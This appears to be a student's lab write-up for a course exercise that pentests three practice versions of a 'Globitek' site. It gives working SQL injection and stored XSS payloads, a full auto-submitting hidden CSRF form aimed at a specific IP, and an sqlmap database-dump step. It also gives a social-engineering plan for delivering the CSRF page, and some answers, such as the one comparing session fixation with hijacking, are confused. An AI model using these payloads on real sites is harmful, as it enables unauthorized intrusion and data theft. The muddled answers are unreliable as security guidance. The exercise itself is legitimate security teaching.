



# Project 8 - Pentesting Live Targets

Time spent: 2 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection

Running the following command in the placement of id will make the page hang for 5 seconds.
```
' OR SLEEP(5)=0--'
```


Vulnerability #2: Session Hijacking

When already logged in, by accessing the hacktools, then copying the session, I can log in through a different browser using the same session.


## Green

Vulnerability #1: User Enumeration

When testing on the green website, only usernames that are valid in the database become bold when a username fails to login.


Vulnerability #2: XSS

When submitting a xss in the feedback tab, once the admin logs in and checks the feedback, it'll activate the XSS.

```
<script>alert('Test XSS');</script>
```



## Red

Vulnerability #1: IDOR



Vulnerability #2: CSRF

Opening the the HTML File with the following code will modify a value on the red website.

```
<html>
  <body onload="document.edit_salesperson.submit()">
    <form action="https://35.224.37.42/red/public/staff/salespeople/edit.php?id=1" method="POST" name="edit_salesperson" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="Totally"><br>
      <input type="text" name="last_name" value="Not Suspicious"><br>
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>
```


## Bonus Objective 1

By knowing that Blue was exploitable with SQLi, we can dump out the database using sqlmap with the command below in our terminal. Then we can add flags to dump the databases, the tables then finally dump the values stored in the tables. In the demo I was able to find our the users using the tool.

```
sqlmap -u "URL"
```



## Resources

- [sqlmap](https://github.com/sqlmapproject/sqlmap)

## Notes
The assignments were fun because we had a chance to test it on real world websites.

* Which attacks were easiest to execute? Which were the most difficult?
  * The assignment for xss was the easiest to execute because I just copied the same line of XSS code throughout different websites. The hardest was CSRF because it required me to look up HTML templates to execute the exploit.

* What is a good rule of thumb which would prevent accidentally username enumeration vulnerabilities like the one created here?
  * A good rule of thumb would be to return the same results all the time regardless of if the username exists or not.

* Since you should be somewhat familiar with the CMS and how it was coded, can you think of another resource which could be made vulnerable to an Insecure Direct Object Reference? What code could be removed which would expose it? (Hint: It was also the answer to the first bonus objective to the Weekly Assignment for week 3.)
  * If id's were generated randomly instead of in order, it would make IDOR much harder to execute.

* Many SQL Injections use `OR` as part of the injected code. (For example: `' OR 1=1 --'`.) Could `AND` work just as well in place of `OR?` (For example: `' AND 1=1 --'`.) Why or why not?
  * `AND` would not work as well because it wouldn't give us an always true clause which makes the exploit possible.

* A stored XSS attack requires patience because it could be stored for months before being triggered. Because of this, what important ingredient would an attacker most likely include in a stored XSS attack script?
  * It would be wise for the attacker to add code in the XSS script to be alerted once the exploit is completed so that the attacker won't have to manually check all the time.

* Imagine that one of your classmates is an authorized admin for the site's CMS and you are not. How would you get them to visit the self-submitting, hidden form page you created in Objective #5 (CSRF)?
  * I would use social engineering to malform a url that would show them in their messaging platform a link to a well reputable link but instead would direct my classmate into a different link that has CSRF exploit.

* Compare session hijacking and session fixation. Which attack do you think is easier for an attacker to execute? Why? One of them is much easier to defend against than the other. Which one and why?
  * I believe that session fixation is easier because there are limitations as to when the attacker can use the session that was hijacked. Once the session is hijacked there are limitations of when and where the attacker can use the session.
